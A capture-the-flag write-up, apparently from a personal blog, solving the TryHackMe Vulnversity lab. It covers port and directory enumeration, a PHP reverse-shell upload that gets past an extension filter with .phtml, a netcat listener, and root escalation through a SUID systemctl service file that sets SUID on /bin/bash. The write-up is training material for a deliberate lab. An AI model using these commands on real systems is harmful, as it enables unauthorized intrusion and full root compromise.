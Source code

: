 ```yaml
---
title: Tryhackme Vulnversity Ctf Writeup
author: krygennn
date: 2021-10-9 18:04
categories: [Blogging,cyber-security]
image:
    src: /assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln1.jpg
    alt: TRYHACKME VULNVERSITY
tags: [ctf,pentesting,linux-privesc,bruteforce,cracking,reverse-shell,php,shell-injection]
---
```

[**Solve Yourself >>**](https://www.tryhackme.com/room/vulnversity)

Vulnversity is a machine that combines reconnaissance, web attack vectors and privilege escalation methods together.
<br>
<br>
## 1-Enumeration
<br>
Let's start with enumerating the host.I will use Network Mapper (`nmap`) tool in order to scan and probe opened ports and active services to find my attack vector. 

| Parameter  | Functionality                                      |
|:-----------|:---------------------------------------------------|
|-sS         |SYN Stealth Scan (Half TCP Connect scan)            |
|-sV         |Probe open ports to determine service/version info  |
|-O          |Enable OS detection.                                |
|-T4         |T{0-5} Set scan speed, higher is faster.            |
|-p-         |Scan all 65536 ports.                               |
|-oN         |Outputfile                                          |


Full command: `nmap {machine IP} -sV -sS -O -T4 -p- -oN vulnversity.nmap`
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln2.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
As you can see from the results, we have got six different ports active to create our attack vector.If you do your research and investigate whether one of these services have any vulnerabilities or not, you will return to your home empty handed.You can try anonymous login to FTP protocol, or try to make a SSH connection but you would fail just like I did.None of these services have any vulnerabilities that would put us in the target system.
 
Other than that **"3333/tcp open  http   Apache httpd 2.4.18 ((Ubuntu))"** catches the eye, so lets start to investigate the webpage that the host is running on its port 3333.

![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln3.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Fire up your browser and type **{machine IP}:3333** to your address bar.You will see the webpage shown above.Nothing suspicious there, so lets start to extract the directories with the help of the `gobuster` tool.

| Parameter     | Functionality                                      |
|:--------------|:---------------------------------------------------|
|dir -u         |URL and the port where web server is running        |
|-w             |Wordlist that contains possible directory names     |

Full command: `gobuster dir -u http://{MachineIP}:3333 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt`

[**Seclist's Wordlist Pack >>**](https://github.com/danielmiessler/SecLists)
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln4.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Let's go for `http://[IP]:3333/internal`
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln5.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
It seems like we've find our playground :) Website have got an upload functionality.
<br>
<br>
## 2-Exploitation
<br>
First thing came into my mind was to upload a php reverse shell, so let's try it out.

[**PHP Reverse Shell Script >>**](https://www.tryhackme.com/room/vulnversity)
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln6.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Download the script by using **curl**.However in order to make it work, we need to make some configurations in the script to make it work.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln7.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Change **$ip** to your own machines ip (tryhackme's vpn tunnel) ,define the port as any random **$port**.I've changed it to the 8888 while it was 1234 by default.

 Configurations are all done ! Now, it is time for us to upload the reverse shell to the web server.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln8.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
**Note**:My machine shutted it down while creating this post, so I had to restart it. That is why the ip have changed, don't worry :)

It seems like .php extension is not allowed.However ,php extension is not the only extension that we can use, we have got couple more.You can try all of them manually, but come on, let's write a python script :)) 
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln9.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
[**Download the php bruter script >>**](https://www.tryhackme.com/room/vulnversity)
Run it.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln10.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
**.phtml** is the working extension. Rename the payload, **php_reverse_shell.php** into **php_reverse_shell.phtml**, and than upload it.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln11.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Now we have successfully injected our reverse shell script.However we also need to listen incoming connections from the server.Therefore we will use Netcat (**nc**) to listen to the port 8888, which we set in the script before.

|Parameter | Functionality                                     |
|:---------|:--------------------------------------------------|
|-n        | Do not resolve hostnames via DNS                  |
|-l        | Bind and listen for incoming connections          |
|-v        | Set verbosity level (can be used several times)   |
|-p        | Specify source port to use                        |

Full command: `nc -nvlp 8888`
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln12.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
While listening to port 8888, we need to activate the script that we just uploaded.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln13.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Visit this URL >> `http://{machineIP}:3333/internals/uploads`, and than click to the reverse php 
shell script that you have uploaded. 
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln14.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Excellent, we are in !
<br>
<br>
## Flag Capturing and Privilege Eseclation
<br>
Nevertheless, this shell is not stable righ now, we need to spawn a python shell.
<br>Run `python -c 'import pty;pty.spawn("/bin/bash")'`, and also `export TERM=xterm`.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln15.jpg){: .shadow style="max-width: 80%" .normal} 
<br>

#### 1-User Flag
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln16.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
In order to get root flag, we have to escalate our privileges, let's search for SUID binaries.If you are not familiar with SUID executables, I recommend you to make your research, than come back, but basically, when you executing a SUID file, you are executing it with it's owner's permissions.We will use **find** command to scan for those binaries.

| Parameter              | Functionality                                          |
|:-----------------------|:-------------------------------------------------------|
| /                      | Search from the root directory                         |
|-type f                 | Only search for files                                  |
|-user root              | Only find the files owned by root                      |
|-perm -u=s              | Only find the files with SUID bit set                  |
|2>/dev/null             | Redirect all stderr outputs to device null             |

Full command: `find -type f -user root -perm -u=s 2>/dev/null`
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln17.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Some of those binaries have set uid bit by default, however **/bin/systemctl** should not have that SUID permission by default,so let's search how we can exploit that.
[**GTFOBins >>**](https://gtfobins.github.io/)
GTFOBins is a github project, and it is curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.Click the link given above and search fore **systemctl**.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln18.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
t seems like one way to exploit that SUID set systemctl is creating a temporary service.Since systemctl's burden is coordinate the services, it makes sense.However we will need to configure that service file.
#### Service file
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
I have manually changed the systemctl location in the given code from relative to static directory,and also ExecStart will set SUID perm to /bin/bash.

Copy and paste the lines given above to shell (Press enter two times after you paste it), and than check the /bin/bash's file permissions.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln19.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
As you can see, /bin/bash binary now have 's' permission, which indicates that it is a SUID executable.
Run `bash -p` and you are good to go.
#### 2-Root Flag
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln20.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
As you can see euid (Effective user id) set to 0 which belongs to root.Now you can get the root flag.

That is all for this machine, thank you for reading :)

